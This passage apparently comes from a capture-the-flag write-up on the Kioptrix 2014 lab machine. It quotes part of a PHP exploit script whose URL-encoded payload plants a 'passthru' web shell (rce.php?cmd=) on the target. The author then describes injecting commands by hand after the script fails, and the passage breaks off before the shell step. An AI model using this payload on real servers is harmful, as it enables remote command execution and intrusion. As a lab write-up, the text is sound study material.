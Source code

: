 ```bash
$url     =  $options['u'];
$shell = "{$url}/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E";

$headers = array('User-Agent: Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)',
'Content-Type: text/plain');

echo "        [+] Submitting request to: {$options['u']}\n";

$handle = curl_init();

curl_setopt($handle, CURLOPT_URL, $url);
curl_setopt($handle, CURLOPT_HTTPHEADER, $headers);
curl_setopt($handle, CURLOPT_RETURNTRANSFER, true);

$source = curl_exec($handle);
curl_close($handle);

if(!strpos($source, 'Undefined variable: HTTP_RAW_POST_DATA') && @fopen($shell, 'r'))
{
echo "        [+] Exploit completed successfully!\n";
echo "        ______________________________________________\n\n        {$url}/data/rce.php?cmd=id\n";
}
else
{
die("        [+] Exploit was unsuccessful.\n");
}

?>  

################################################################################################################
# Greetz      : ZeQ3uL, JabAv0C, p3lo, Sh0ck, BAD $ectors, Snapter, Conan, Win7dos, Gdiupo, GnuKDE, JK, Retool2
################################################################################################################
```

Running the exploit, I ran into an error related to `curl`. I found out I needed `php-curl`, so I installed that and tried again. Unfortunately, the exploit still failed. I took a closer look at the code to find out if/how I could exploit this vulnerability manually. I was able to create a `.php` file, fill it with content and then inject arbitrary commands using the `GET` function:

![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix2014_createphpfile.png)

![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix2014_executephpfile.png)

![alt]({{ site.url }}{{ site.baseurl }}/images/kioptrix2014_commandinjection.png)

So I was able to execute commands on the target's machine hosting the website. The next step was using this to give myself a shell:
